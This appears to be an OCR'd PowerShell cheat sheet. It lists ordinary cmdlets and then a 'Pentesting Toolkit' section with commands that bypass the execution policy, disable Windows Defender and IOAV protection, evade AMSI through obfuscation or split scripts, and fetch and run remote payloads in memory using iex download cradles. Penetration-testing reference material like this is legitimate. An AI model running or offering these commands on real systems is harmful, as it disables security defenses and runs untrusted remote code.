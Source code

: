 Get-Service	Display the running and stopped services of the computer. See a working example in Pipes.
Get-Command *-Service	List all commands with the suffix “-Service”:

Get-Process	List processes on a local computer:

Start-Sleep 10	Sleep for ten seconds
Start-Job	Start a Windows Powershell background job locally
Receive-Job	Get the results of the Windows Powershell background job
New-PSSession	Create a persistent connection to a local or remote computer
Get-PSSession	Get the Windows PowerShell sessions on local and remote computers
Enable-NetFirewallRule	Enable a previously disabled firewall rule
ConvertTo-Html	Convert Microsoft .NET Framework objects into HTML web pages
Invoke-RestMethod	Send an HTTP or HTTPS request to a RESTful web service

**Powershell Pentesting Toolkit**

Set-ExecutionPolicy -ExecutionPolicy Bypass	In this powerful command, “Bypass” means removing all obstacles to running commands/scripts and disabling warnings and prompts.
ExecutionPolicy myth: If you configure it a certain way, it will automatically protect your device from malicious activities.
ExecutionPolicy fact: It’s a self-imposed fence on PowerShell commands/scripts by a user, so if a malicious PowerShell script has caused damage, you already have a compromised machine.
Jeffrey Snover, the creator of PowerShell, says:

Learn more about ExecutionPolicy.
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVprotection $true}
# Feed the above into https://amsi.fail to get the obfuscated (and runnable) version	Microsoft’s Antimalware Scan Interface (AMSI) allows antivirus software to monitor and block PowerShell scripts in memory.
AMSI can recognize scripts meant to bypass AMSI by their hash signatures. So hackers/pentesters wise up.
A typical workaround is obfuscation, such as creating dummy variables to hold values in the script and Base64-encoding these values. Good obfuscation makes it harder for AMSI to recognize a script.
But a tried-and-tested workaround that doesn’t involve obfuscation is splitting it up into separate lines.
Therein lies AMSI’s weakness: it can detect entire scripts but not anticipate whether incremental commands lead to unexpected results.
Set-MpPreference -DisableRealTimeMonitoring $true
# Feed the above into https://amsi.fail to get the obfuscated (and runnable) version	Turn off Windows Defender.
This command also requires obfuscation as AMSI will identify and abort such scripts.
Import-Module /path/to/module	Import module from a directory path /path/to/module
iex (New-Object Net.WebClient).DownloadString('https://[webserver_ip]/payload.ps1')	Download execution cradle: a payload PowerShell script payload.ps1.
iex (iwr http://[webserver_ip]/some_script.ps1 -UseBasicParsing) 	Downloading a PowerShell script some_script.ps1 and running it from random access memory (RAM)
iex (New-Object Net.WebClient).DownloadString('http://[webserver_ip]/some_script.ps1')	Download a PowerShell script some_script.ps1 into RAM instead of disk
iex (New-Object Net.WebClient).DownloadString('http://[webserver_ip]/some_script.ps1');command1;command2	Allow a PowerShell script some_script.ps1 to run commands (command1, command2) one at a time directly from RAM.
The next item is an example.
iex (New-Object Net.WebClient).DownloadString('http://localhost/powerview.ps1');Get-NetComputer	Run localhost’s PowerView (powerview.ps1) function Get-NetComputer directly from RAM.